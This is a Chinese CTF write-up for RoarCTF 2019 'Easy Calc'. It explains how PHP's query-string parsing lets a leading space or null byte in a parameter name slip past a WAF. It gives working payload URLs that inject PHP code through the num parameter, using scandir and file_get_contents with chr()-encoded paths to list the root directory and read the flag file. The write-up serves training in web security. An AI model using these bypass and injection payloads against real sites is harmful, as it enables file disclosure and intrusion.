

# [RoarCTF 2019]Easy Calc

## 知识点

- ### PHP的字符串解析特性

  **我们知道PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。例如：/?foo=bar变成Array([foo] =>  "bar")。值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。例如，/?%20news[id%00=42会转换为Array([news_id] => 42)。如果一个IDS/IPS或WAF中有一条规则是当news_id参数的值是一个非数字的值则拦截，那么我们就可以用以下语句绕过：**

  `/news.php?%20news[id%00=42"+AND+1=0--`

  ​    上述PHP语句的参数%20news[id%00的值将存储到$_GET["news_id"]中。

  ​    HP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：

  > ​    1.删除空白符
  >
  > ​    2.将某些字符转换为下划线（包括空格）

  ​    例如：

  | User input    | Decoded PHP | variable name |
  | ------------- | ----------- | ------------- |
  | %20foo_bar%00 | foo_bar     | foo_bar       |
  | foo%20bar%00  | foo bar     | foo_bar       |
  | foo%5bbar     | foo[bar     | foo_bar       |

  假如waf不允许num变量传递字母：

  ```html
  http://www.xxx.com/index.php?num = aaaa   //显示非法输入的话
  ```

  那么我们可以在num前加个空格：

  ```html
  http://www.xxx.com/index.php? num = aaaa
  ```

  ## 解题

  payload:

  禁用了`/`，使用`chr(47)`代替

  ```
  http://node3.buuoj.cn:26129/calc.php?%20num=2;var_dump(scandir(chr(47)))
  ```

  

payload:

```html
http://node3.buuoj.cn:26129/calc.php?%20num=1;var_dump(file_get_contents('/f1agg')
```


```
http://node3.buuoj.cn:26129/calc.php?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

